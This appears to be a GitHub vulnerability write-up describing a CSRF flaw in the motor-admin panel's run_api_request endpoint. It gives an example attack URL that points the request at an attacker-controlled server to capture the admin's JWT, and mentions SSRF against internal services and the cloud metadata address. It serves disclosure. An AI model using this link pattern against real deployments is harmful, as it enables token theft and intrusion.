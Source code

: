 # motoradmin-CSRF
CSRF
The motor-admin panel allows administrators to add custom database queries and save them as API configurations.
These queries are executed via a GET request, including query parameters for configuration, path, etc.
Attackers craft a malicious link pointing to the vulnerable API endpoint.
example: http://victim.com/api/run_api_request?data[Bapi_config_name]=http://attackerserver:port &data[path]=1 
The data[api_config_name] parameter specifies the target server, which in this case is controlled by the attacker.
When the admin clicks the link:
•	The panel sends an HTTP request to the attacker's server (http://attackerserver:port).
•	The request includes sensitive data, such as the JWT token, in headers
![admin token](https://github.com/alirezacsp/Zero/blob/main/image.png)
Consequences
This vulnerability has severe security implications, including:
1.	Authentication Token Leakage:
o	The JWT token is sent along with the request, allowing the attacker to impersonate the admin or gain unauthorized access to the application.
o	If the token grants high-privilege access, the attacker can:
	Compromise the entire database.
	Manage administrative functions, including deleting users or modifying sensitive configurations.
o	This breach extends to any system or API reliant on the leaked JWT.
2.	Sensitive Data Exposure:
o	The attacker could redirect the query to their server, logging sensitive data included in the request (e.g., cookies, headers, query parameters).
o	If the JWT token contains sensitive claims (e.g., username, roles, permissions), this information may also be exposed.
3.	Server-Side Request Forgery (SSRF):
o	The attacker could redirect requests to:
	Internal Services: Access internal APIs or resources not exposed to the public.
	Metadata Services (e.g., AWS metadata at http://169.254.169.254): Harvest sensitive environment information such as access keys.
	Exploitation of Internal Systems: Execute further attacks by leveraging SSRF as an entry point.
4.	Chained Attacks:
o	With the leaked token, the attacker can escalate their privileges, potentially gaining access to:
	Additional user accounts.
	Linked external services (e.g., cloud platforms or APIs).
o	If combined with other vulnerabilities, this could lead to complete system compromise.
5.	Legal and Regulatory Implications:
o	The exfiltration of authentication tokens or sensitive data could breach data protection laws like GDPR, HIPAA, or CCPA.
o	The organization could face fines, lawsuits, and mandatory disclosures.


